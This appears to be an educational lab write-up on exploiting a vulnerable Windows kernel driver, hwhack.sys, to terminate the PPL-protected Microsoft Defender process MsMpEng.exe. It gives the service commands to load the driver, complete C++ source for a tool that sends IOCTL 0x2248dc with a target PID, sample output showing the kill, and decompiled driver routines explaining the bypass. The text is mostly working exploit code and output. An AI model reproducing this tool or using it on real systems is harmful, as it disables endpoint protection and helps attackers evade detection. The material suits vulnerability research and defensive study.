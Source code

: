# Vulnerable Driver Analysis: `hwhack.sys`

This lab walks through the steps for loading, interacting with, and exploiting a vulnerable driver (`hwhack.sys`) for educational purposes. The main target is the protected Microsoft Defender process `MsMpEng.exe`, which cannot normally be terminated by a standard user due to protected process (PPL) status.

---

## 1. Driver Load and Execution

Password: 3c0df68b0783a85a2df281d4f840fbaa1eb7a6f0e136b206f7a302db26a15a7c

### Create & Start the Driver

```cmd
sc create hwhack binPath=C:\hwhck.sys type=kernel
sc start hwhack
```
```text
[SC] CreateService CORRECTO
```

Output:

```text
NOMBRE_SERVICIO: hwhack
        TIPO               : 1  KERNEL_DRIVER
        ESTADO             : 4  RUNNING
                                (STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        CÓD_SALIDA_WIN32   : 0  (0x0)
        CÓD_SALIDA_SERVICIO: 0  (0x0)
```

The driver is now running in kernel mode.

---

## 2. Target Process: Microsoft Defender (`MsMpEng.exe`)

### Attempting to Kill from Userland

```cmd
taskkill /PID 3868 /F
```

```text
Error: no se pudo terminar el proceso con PID 3868.
Motivo: Acceso denegado.
```

As expected, the system prevents the termination of PPL-protected processes like Microsoft Defender.

---

## 3. Exploiting the Driver

Now we use the custom **userland exploit tool** to send an IOCTL to the driver and instruct it to terminate the target PID from kernel mode.

### Source Code: `drv_hwhck.cpp`

```cpp
#include <windows.h>
#include <iostream>
#include <cstdint>
#include <cstdio>
#include <cstdlib>

#define IOCTL_TERMINATE 0x2248dc               // Custom IOCTL code for termination
#define DEVICE "\\\\.\\HWAudioX64"             // Device interface name (symbolic link from driver)

// Run as administrator!
int main(int argc, char** argv) {
    ULONG_PTR output[1] = { 0 };
    ULONG bytesReturned = 0;
    DWORD lastError = 0;

    HANDLE hDevice = CreateFileA(
        DEVICE,
        GENERIC_WRITE | GENERIC_READ,
        0,
        NULL,
        OPEN_EXISTING,
        FILE_ATTRIBUTE_NORMAL,
        NULL
    );

    if (hDevice == INVALID_HANDLE_VALUE) {
        lastError = GetLastError();
        printf("[-] Failed to open device. Error: %d (0x%x)\n", lastError, lastError);
        return 1;
    }

    printf("[+] Device handle obtained.\n");

    unsigned int pid;
    DWORD lpBytesReturned = 0;

    printf("PID please : \n");
    scanf("%u", &pid);

    BOOL result = DeviceIoControl(
        hDevice,
        IOCTL_TERMINATE,      // Send IOCTL 0x2248dc
        &pid, sizeof(pid),    // Input buffer (PID)
        NULL, 0,              // No output buffer
        &lpBytesReturned,
        NULL
    );

    if (!result) {
        lastError = GetLastError();
        printf("[-] DeviceIoControl failed. Error: %d (0x%x)\n", lastError, lastError);
    } else {
        printf("[+] DeviceIoControl succeeded.\n");
    }

    CloseHandle(hDevice);
    return 0;
}
```

---
```cmd
drv_hwhck.exe
```

Sample interaction:

```text
[+] Device handle obtained.
PID please :
3868
[+] DeviceIoControl succeeded.
```

This bypasses userland security by:
1. Opening the target PID from kernel space.
2. Calling `ZwTerminateProcess`, regardless of PPL protection.

This allows even protected processes like `MsMpEng.exe` to be terminated.


---

## 4. Why This Works

The driver contains a custom IOCTL dispatcher that handles a specific request code:

```c
if (param_1 == 0x2248dc) {
    uVar1 = call_to_zwterminate((longlong)param_2);
}
```

This means when the userland tool sends **IOCTL `0x2248dc`**, the driver calls `call_to_zwterminate()`, a function that safely opens a process handle in kernel mode and calls `ZwTerminateProcess()`.

### Function Breakdown:

#### `call_to_zwterminate`

```c
undefined4 call_to_zwterminate(longlong param_1)
{
  if ((*(uint **)(param_1 + 0x18) != (uint *)0x0) &&
     (*(int *)(*(longlong *)(param_1 + 0xb8) + 0x10) == 4)) {
    return to_zwterminate((ulonglong)**(uint **)(param_1 + 0x18));
  }
  *(undefined8 *)(param_1 + 0x38) = 0;
  return 0xc000000d;
}
```

- Checks if valid input and method
- Extracts the PID and forwards it to `to_zwterminate()`

#### `to_zwterminate`

```c
undefined4 to_zwterminate(ulonglong pid)
{
  longlong hProc = to_openprocess(pid);
  if (hProc != 0) {
    ZwTerminateProcess(hProc, 0);
    ZwClose(hProc);
    return 0;
  }
  return ERROR_INVALID_HANDLE;
}
```

- Opens a handle to the process in kernel mode
- Terminates it using `ZwTerminateProcess`, bypassing PPL
- Closes the handle

This is how the driver successfully kills even protected processes from kernel space.

---

## 5. Verifying the Result

```cmd
tasklist | findstr /IM MsMpEng
```

Initially returns the PID (`3868`), but after the driver is triggered, repeated checks return nothing — meaning the process was terminated.

Eventually:

```text
MsMpEng.exe                   1152 Services                   0   227.180 KB
```

Defender restarts itself automatically via its service.

---
